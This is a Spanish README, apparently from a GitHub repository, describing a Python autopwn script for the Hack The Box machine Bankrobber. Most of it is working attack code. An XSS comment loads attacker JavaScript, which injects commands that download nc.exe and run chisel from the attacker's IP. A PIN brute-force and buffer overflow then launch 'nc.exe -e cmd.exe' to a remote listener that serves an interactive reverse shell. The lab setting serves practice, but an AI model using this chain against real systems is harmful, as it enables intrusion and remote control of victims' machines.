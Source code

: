 # Autopwn - EarlyAccess

En caso de no haber realizado la máquina Bankrobber, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Bankrobber) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-Bankrobber.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

El primer paso que realiza el script es en la creación del archivo, el cual primero descargara el binario **nc.exe** y luego ejecuta el **Chisel** como cliente.

```python3
content = f"""var request = new XMLHttpRequest();
var pwn = 'cmd=dir|powershell -c "iwr http://{MyIP}/nc.exe -outfile %temp%\\\\nc.exe" |start \\\\\\\\{MyIP}\\\\pwn\\\\chisel.exe client {MyIP}:8080 R:910:127.0.0.1:910';
request.open("POST", "http://localhost/admin/backdoorchecker.php", true);
request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request.send(pwn);
"""

with open('pwn.js', 'w') as file:
	file.write(content)
```
Despues, crea y ejecuta los servidores **HTTP** y **SMB**, junto con **Chisel**, en segundo plano.
```python3

http_server = subprocess.Popen(["python3","-m","http.server","80"],stdout=subprocess.PIPE,stderr=subprocess.PIPE, text=True)

chisel_server = subprocess.Popen(["./chisel","server","-p","8080", "--reverse"],stdout=subprocess.DEVNULL,stderr=subprocess.DEVNULL)


def smb_server():
    server = SimpleSMBServer()
    server.addShare("pwn", ".")
    server.setSMB2Support(True)
    server.start()

threading.Thread(target=smb_server, daemon=True).start()
```

Mientras, la función **register **crea el usuario que enviará el **XSS** al usuario admin, y la función  **login** obtiene el **ID** de dicho usuario para poder enviar el mensaje.

````python3
def register():

	url_register = main_url + "/register.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = requests.post(url_register, data=data)

	ID = login()

	return ID

def login():
	url_login = main_url + "/login.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = s.post(url_login, data=data)

	ID = s.cookies.get_dict()["id"]

	return ID




```
Con el **ID** ya obtenido, la función **Send_XSS** envía el mensaje y monitorea el servidor **HTTP** en espera de una petición **GET**. Para garantizar su persistencia, el mensaje se reenvía cada minuto en caso de que sea eliminado. Una vez que la petición es recibida, el proceso vuelve a esperar hasta que el puerto **910** es abierto.

```python3
def Send_XSS(ID):

	url_shell = main_url + "/user/transfer.php"

	headers= {
	"Content-Type": "application/x-www-form-urlencoded"
	}

	data = {
		"fromId": ID,
		"toId": "1",
		"amount": "1",
		"comment": "<script src='http://%s/pwn.js'></script>" % MyIP
	}

	threading.Thread(target=logs_get, daemon=True).start()

	r = s.post(url_shell, data=data, headers=headers)


	while "GET" not in line:
		r = s.post(url_shell, data=data, headers=headers)
		time.sleep(60)

	while True:
		if check_port("0.0.0.0", 910):
			threading.Thread(target=brutef_buffer, daemon=True).start()
			break

def check_port(host, port):
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
			sock.settimeout(1)
			result = sock.connect_ex((host, port))
			return result == 0


def logs_get():
	global line
	line = http_server.stderr.readline().strip()
	print(line)

```

Tras la apertura del puerto **910** comienza el ataque de fuerza bruta en segundo plano, mientras por otro lado, es puesto en escucha, para recibir la shell como el usuario admin.

```python3

def brutef_buffer():

	buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\\Users\\Cortin\\AppData\\Local\\Temp\\nc.exe 10.10.14.13 444 -e cmd.exe"

	for pin in range(10000):

		pin = str(pin).zfill(4)

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("127.0.0.1", 910))

		data = s.recv(1024)

		s.send(pin.encode() + b'\n')

		data = s.recv(1024)

		if "Access denied" not in data.decode():
			print(pin)
			s.send(buffer.encode() + b'\n')
			s.close()
			break

		time.sleep(2)

def receive_all(conn):
	# Recibe datos en un bucle hasta que no haya más.
	data = b""
	conn.settimeout(2)  # Tiempo de espera breve para evitar bloqueos
	try:
		while True:
			chunk = conn.recv(4096)
			if not chunk:
				break
			data += chunk
	except socket.timeout:
		pass  # El timeout indica que no hay más datos por recibir
	return data.decode("ISO-8859-1", errors="ignore") # Devuelve los datos decodificados en ISO-8859-1, ignorando errores en la conversión



def R_Shell():

	HOST = "0.0.0.0"
	PORT = 444

	server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	server.bind((HOST, PORT))
	server.listen(5)  # Permite múltiples conexiones

	cont = 0


	while True:
		conn, addr = server.accept()

		while True:
			if cont == 0:
				conn.send("taskkill /IM chisel.exe /F".encode() + b"\n")

			time.sleep(1)
			command = input("$ ")
			if command.lower() == "exit":
				conn.send(b"exit")
				conn.close()
				break
			conn.send(command.encode() + b"\n")
			result = receive_all(conn)
			print(result)
			cont = 1

```
